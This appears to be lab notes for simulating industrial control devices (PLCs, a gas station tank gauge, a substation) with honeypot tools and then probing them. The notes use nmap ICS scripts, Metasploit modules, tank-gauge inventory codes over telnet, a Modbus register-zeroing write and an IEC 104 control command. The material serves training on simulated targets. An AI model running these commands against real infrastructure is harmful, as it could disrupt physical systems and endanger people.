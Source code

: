 ## A simple honeypot
sudo python3 -m honeypots --setup telnet,http,smb,vnc,snmp

## PLC Simulation 1
Change the first half part of the MAC address to 001C06 \
conpot -f --template default \
sudo nmap <IP_address> -Pn -sU -p 16100 \
sudo nmap <IP_address> -Pn -p- \
snmp-check --port 16100 <IP_Address>


## S7 PLC Simulation 2
sudo python3 \
import snap7 \
s7 = snap7.server.Server() \
s7.create() \
s7.start() \
s7.get_status()

python2 plcscan.py 192.168.168.11 \
sudo nmap 192.168.168.11 -Pn -p 102 --script ~/ICS_attack_scripts/Redpoint/s7-enumerate \
/usr/share/nmap/scripts/s7-info.nse

msfconsole -> search Siemens \
searchsploit 

## Gas Station Controller Simulation
Automatic Tank Gauge
Change the first half part of the MAC address to 00A0F6 \
conpot -f --template guardian_ast \
sudo nmap 192.168.168.12 -Pn -p 10001 --script ~/ICS_attack_scripts/Redpoint/atg-info.nse \
filetype:pdf I20100 \
https://www.veeder.com/us/sites/veeder.com.us/files/2020-09/576013-818%20-%20TLS-3XX%C2%A0Series%20Consoles%20Troubleshooting%20Guide.pdf \
https://www.ericzhang.me/gas-station-atgs-exposed-to-public/ \
telnet 192.168.168.12 10001 \
CTRL + A and I20100 \
Some function codes: \
I20100 1 In-Tank Inventory Report \
I20200 1 In-Tank Delivery Report \
I20300 1 In-Tank Leak Detect Report \
I20400 1 In-Tank Shift Inventory Report \
I20500 1 In-Tank Status Report

## Modbus PLC Simulation
sudo nmap -Pn 192.168.168.12 -p 502 --script ~/ICS_attack_scripts/Redpoint/modbus-discover.nse \
metasploit modules -> search modbus 

modbus read 192.168.168.12 %MW0 10 \
modbus write 192.168.168.12 %MW0 0 0 0 0 0 0 0 0 0 

## Pentesting a ChronoGuard Infrastructure Substation
Change the first half part of the MAC address to 001D59 \
nano .local/lib/python3.10/site-packages/conpot/templates/IEC104/snmp/snmp.xml \
Change the snmp port from 161 into 16100 \
conpot -f --template IEC104 \
sudo nmap 192.168.168.12 -p 2404 --script ~/ICS_attack_scripts/Redpoint/iec-identify.nse \
/usr/share/nmap/scripts/iec-identify.nse \
metasploit -> search iec104 \
use auxiliary/client/iec104/iec104 \
set ASDU_ADDRESS <learn_from_nmap_nse> \
check the ChronoGuard manual \
ASDU_ADDRESS 7720 \
COMMAND_ADDRESS 3348 \
COMMAND_TYPE 45 \
COMMAND_VALUE 0




  
